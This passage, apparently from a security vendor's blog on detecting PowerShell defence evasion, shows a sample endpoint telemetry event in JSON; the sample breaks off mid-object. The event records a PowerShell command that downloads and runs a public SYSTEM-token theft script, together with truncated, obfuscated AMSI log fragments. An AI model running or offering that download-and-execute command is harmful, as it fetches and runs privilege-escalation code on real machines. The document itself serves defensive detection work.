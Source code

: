 Even though we don’t need to use the brittle PowerShell AMSI logging for detection, we can still provide this detail in the event as context as it assists with triage.  This modality-based approach even detects common PowerShell defence evasion tradecraft such as:
 - ntdll unhooking
 - AMSI patching
 - user-mode ETW patching

```json
{
 "event": {
  "provider": "Microsoft-Windows-Threat-Intelligence",
  "created": "2025-01-29T18:27:09.4386902Z",
  "kind": "event",
  "category": "api",
  "type": "change",
  "outcome": "unknown"
 },
 "message": "Endpoint API event - VirtualProtect",
 "process": {
  "parent": {
   "executable": "C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe"
  },
  "name": "powershell.exe",
  "executable": "C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe",
  "code_signature": {
   "trusted": true,
   "subject_name": "Microsoft Windows",
   "exists": true,
   "status": "trusted"
  },
  "command_line": "\"powershell.exe\" & {iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/Get-System-Techniques/master/TokenManipulation/Get-WinlogonTokenSystem.ps1');Get-WinLogonTokenSystem}",
  "pid": 21908,
  "Ext": {
   "api": {
    "summary": "VirtualProtect( kernel32.dll!FatalExit, 0x21, RWX, R-X )",
    "metadata": {
     "target_address_path": "c:\\windows\\system32\\kernel32.dll",
     "amsi_logs": [
      {
       "entries": [
        "& {iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/Get-System-Techniques/master/TokenManipulation/Get-WinlogonTokenSystem.ps1');Get-WinLogonTokenSystem}",
        "{iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/Get-System-Techniques/master/TokenManipulation/Get-WinlogonTokenSystem.ps1');Get-WinLogonTokenSystem}",
        "function Get-WinLogonTokenSystem\n{\nfunction _10001011000101101\n{\n  [CmdletBinding()]\n  Param(\n [Parameter(Position = 0, Mandatory = $true)]\n [ValidateNotNullOrEmpty()]\n [Byte[]]\n ${_00110111011010011},\n ...<truncated>",
        "{[Char] $_}",
        "{\n [CmdletBinding()]\n Param(\n   [Parameter(Position = 0, Mandatory = $true)]\n   [Byte[]]\n   ${_00110111011010011},\n   [Parameter(Position = 1, Mandatory = $true)]\n   [String]\n   ${_10100110010101100},\n ...<truncated>",
        "{ $_.GlobalAssemblyCache -And $_.Location.Split('\\\\')[-1].Equals($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('UwB5AHMAdABlAG0ALgBkAGwAbAA=')))) }"
       ],
       "type": "PowerShell"
      }
     ],
     "target_address_name": "kernel32.dll!FatalExit",
     "amsi_filenames": [
```